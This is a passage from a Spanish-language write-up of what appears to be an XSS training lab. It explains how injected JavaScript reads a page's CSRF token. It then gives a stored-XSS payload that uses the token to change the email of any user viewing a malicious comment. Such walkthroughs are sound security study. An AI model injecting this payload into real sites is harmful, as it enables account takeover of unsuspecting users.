 ![token](/assets/images/XSS/lab16/token.png)


Y comprobamos que si podemos filtrar el token, y lo que hace este código simplemente es que primero con **document.getElementsByName** obtenemos el elemento por nombre el cual es **csrf** como vimos en el código de la web, y simplemente estamos tomando su primer valor **[0]** que es el token y lo mostramos con **.value**.

<br>

Así que ya sabemos como filtrar el token, por lo que ahora usaremos esto no para saber el token de los usuarios, ya que podemos referenciar al token dentro de nuestro código malicioso javascript que inyectaremos en el XSS, y que haga algo con todos los tokens de los usuarios que abran este post con el comentario malicioso.

El objetivo es cambiar el correo de un usuario que no sabemos cual es pero que siempre entra a ver los comentarios de ser publicados, así que construiremos el siguiente payload:

```js
<script>

window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;

var data = new FormData();
data.append('csrf', token)
data.append('email', 'dansh@dm.com');

fetch('/my-account/change-email', {
method: 'POST',
mode: 'no-cors',
body: data
});
});

</script>
```
